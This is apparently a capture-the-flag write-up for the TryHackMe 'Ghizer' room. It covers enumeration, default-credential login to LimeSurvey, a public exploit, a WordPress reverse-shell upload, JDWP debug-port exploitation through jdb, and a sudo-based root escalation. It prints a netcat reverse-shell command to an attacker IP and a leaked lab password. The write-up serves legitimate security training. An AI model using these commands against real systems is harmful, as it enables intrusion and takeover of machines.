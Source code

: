 # 51 - Ghizer (java-rmi/java rmi, JDWP Debug Port exploitation)

Room Link --> [https://tryhackme.com/room/ghizerctf](https://tryhackme.com/room/ghizerctf)

### Enumeration

{% code overflow="wrap" lineNumbers="true" %}
```bash
nmap -Pn -n -v 10.10.160.244 -p- -sV

Not shown: 65524 closed tcp ports (conn-refused)
PORT      STATE    SERVICE    VERSION
21/tcp    open     ftp?
80/tcp    open     http       Apache httpd 2.4.18 ((Ubuntu))
443/tcp   open     ssl/http   Apache httpd 2.4.18 ((Ubuntu))
18002/tcp open     java-rmi   Java RMI
35797/tcp open     java-rmi   Java RMI
44993/tcp open     tcpwrapped
```
{% endcode %}

#### Dirsearch enumeration

{% code overflow="wrap" lineNumbers="true" %}
```bash
dirsearch -u http://10.10.160.244 -x 403 -w /usr/share/dirb/wordlists/common.txt -t 500 -x 503

/assets
/admin
/application
/docs
/framework
/installer
/index.php
/locale
/plugins
/server-status
/upload
/themes
/tmp
/tests
# all dead ends :(
```
{% endcode %}

The `/admin` dir. Googled default password for LimeSurvey and got `admin : password` .

And it worked.

<figure><img src=".gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

### Initial Access

Search for an exploit for the specific version on google and got: [https://www.exploit-db.com/exploits/46634](https://www.exploit-db.com/exploits/46634)

And we get access to a very limited shell.

<figure><img src=".gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

Search for 'config.php' file.

{% code overflow="wrap" lineNumbers="true" %}
```bash
$ find / -type f -iname 'config.php' 2>/dev/null

$ cat /var/www/html/limesurvey/application/config/config.php
```
{% endcode %}

<figure><img src=".gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

`Anny :  P4$W0RD!!#S3CUr3!` .

#### Wordpress enum

Goto the webserver on port 443: `https://10.10.160.244/` - we get the wordpress site, clicking on the login, and we get redirected to the login panel.

<figure><img src=".gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

We can upload a reverse shell in zip format in order to get a rev shell.

<figure><img src=".gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

### Priv Esc to Veronica

We use “**linpeas.sh**” script and we enumerated connections in use of **ghidraDebug** with **Veronica** user.

<figure><img src="https://1.bp.blogspot.com/-11q8WG15zDo/X7irvP-1DRI/AAAAAAAAq30/ETruuKRub1kPHc-TLgbk14heRi0lMvw1gCLcBGAsYHQ/s16000/13.png" alt=""><figcaption></figcaption></figure>

We enumerate **GhidraDebug** service internal on port **18001**.

<figure><img src="https://1.bp.blogspot.com/-kjnBRfJ-I30/X7ir4R_RviI/AAAAAAAAq4A/HSOZQFjbyegl_ImA-Fw9LRI12_PXzRk6wCLcBGAsYHQ/s16000/14.png" alt=""><figcaption></figcaption></figure>

We exploit it from the victim box.

{% code overflow="wrap" %}
```bash
jdb -attach 127.0.0.1:18001
classpath
classes
stop in org.apache.logging.log4j.core.util.WatchManager$WatchRunnable.run()
# wait for a "Logj2-Tf" terminal.
print new java.lang.Runtime().exec("nc.traditional 10.18.88.214 9001 -e /bin/sh")

# setup nc listener.
nc -nvlp 9001
```
{% endcode %}

<figure><img src=".gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

### Priv Esc to Root

`sudo -l` - there is the `env-reset` also, meaning we can create new env path for files.

<figure><img src=".gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

We can execute this cmd as root. We cant modify the file but we can delete it and replace it with a modified one to get root.

{% code overflow="wrap" %}
```bash
veronica@ubuntu:~$ rm -rf /home/veronica/base.py
veronica@ubuntu:~$ echo 'import pty;pty.spawn("/bin/bash")' > base.py
veronica@ubuntu:~$ sudo -u root /usr/bin/python3.5 /home/veronica/base.py
root@ubuntu:~# 
```
{% endcode %}

<figure><img src=".gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

Done !

